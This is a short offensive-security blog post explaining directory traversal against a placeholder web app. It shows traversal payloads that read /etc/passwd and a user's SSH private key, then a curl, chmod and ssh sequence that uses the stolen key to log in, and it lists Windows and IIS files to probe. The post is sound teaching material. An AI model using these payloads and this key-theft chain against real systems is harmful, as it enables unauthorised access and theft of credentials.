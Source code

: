 ```yaml
---
layout: post
title: Directory Traversal Exploit
titledate: 08/27/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell","dir_traversal"]
---
```


<h4>Linux</h4>

When browsing a site we can hover over links to get an idea of the directory structure of the web application on the server.

Of course using tools like gobuster or feroxbuster can help us enumerate this dir structure easily, but it may be possible to perform directory traversal attack by traversing directories to try to access content outside of the web server

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../etc/passwd

You only need to give the minimum number of ../ to get to the root directory from the current working directory of the web page you are on, however, since there is no maximum we can just provide a large number of ../ to get to the root path

From the above command we can obtain a list of users on the system. With this information we learn about a user DON. We can try to find DON's ssh key with a typical directory layout 

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

If this request returns the private ssh key for don , we should use a different procedure to obtain the key as displaying content in the web browser can often get skewed as many characters may not be properly encoded. We can use wget, curl, or python/ruby to retrieve this information

    $ curl http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

Once we obtain the key we need to change the permissions on it because they are too open

    $ chmod 400 don_key

Now we can attempt to ssh to the machine hosting the vulnerable web server

    $ ssh -i don_key -p 2222 don@vulnwebapp.com

<h4>Windows</h4>

Windows is a little more difficult to obtain useable information than linux

    $ C:\Windows\System32\drivers\etc\hosts

This file should be accessible by all users and useful to try dir traversal attacks

<h3>We can not reach useful ssh data like we do for Linux, but information disclosure can still be relevant depending on what directory contents we can disclose</h3>

    $ C:\inetpub\logs\LogFiles\W3SVC1
    $ C:\inetpub\wwwroot\web.config

The files above both contain information about the IIS server, so it is always worth probing the directories to see what we can find